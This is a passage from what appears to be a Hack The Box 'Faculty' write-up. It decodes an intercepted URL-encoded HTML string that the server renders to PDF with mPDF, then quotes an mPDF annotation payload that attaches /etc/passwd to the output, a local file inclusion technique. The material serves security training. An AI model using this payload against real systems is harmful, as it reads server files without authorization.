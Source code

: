 The output from that is also URL encoded, let's decode:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# python3 -c "import urllib.parse; print(urllib.parse.unquote('%3Ch1%3E%3Ca+name%3D%22top%22%3E%3C%2Fa%3Efaculty.htb%3C%2Fh1%3E%3Ch2%3ESubjects%3C%2Fh2%3E%3Ctable%3E%09%3Cthead%3E%09%09%3Ctr%3E%09%09%09%3Cth+class%3D%22text-center%22%3E%23%3C%2Fth%3E%09%09%09%3Cth+class%3D%22text-left%22%3ESubject%3C%2Fth%3E%09%09%09%3Cth<SNIP>3C%2Ftable%3E'))" 
<h1><a+name="top"></a>faculty.htb</h1><h2>Subjects</h2><table>  <thead>         <tr>                    <th+class="text-center">#</th>                  <th+class="text-left">Subject</th>                      <th+class="text-left">Description</th>                     </tr></thead><tbody><tr><td+class="text-center">1</td><td+class="text-center"><b>DBMS</b></td><td+class="text-center"><small><b>Database+Management+System</b></small></td></tr><tr><td+class="text-center">2</td><td+class="text-center"><b>Mathematics</b></td><td+class="text-center"><small><b>Mathematics</b></small></td></tr><tr><td+class="text-center">3</td><td+class="text-center"><b>English</b></td><td+class="text-center"><small><b>English</b></small></td></tr><tr><td+class="text-center">4</td><td+class="text-center"><b>Computer+Hardware</b></td><td+class="text-center"><small><b>Computer+Hardware</b></small></td></tr><tr><td+class="text-center">5</td><td+class="text-center"><b>History</b></td><td+class="text-center"><small><b>History</b></small></td></tr></tboby></table>
```

We end up with HTML, if we open that in Firefox we can see its the same contents as the PDF that gets generated:

![faculty-html-output](/assets/images/2022-07-19-22-56-18.png)

So we can intercept the POST request in Burp and replace the PDF string with something of our own choosing.

## Local File Inclusion

Searching around I found [this](https://stackoverflow.com/questions/52072279/adding-attachment-to-pdf-file-with-php-or-using-bash), which says in version 6.0 you can attach files by using the Annotation() function. It gives this example of attaching a file:

```sh
$mpdf->Annotation("File annotation", 0, 0, 'Note', '', '', 0, false, '', 'assets/tiger.jpg');
```

The mPDF docs [here](https://mpdf.github.io/reference/mpdf-functions/annotation.html) also show how to use the Annotation function with files. Looking on the GitHub repo for mPDF I found [this](https://github.com/mpdf/mpdf/issues/356) issue with an example of retrieving the passwd file:

```sh
<annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```
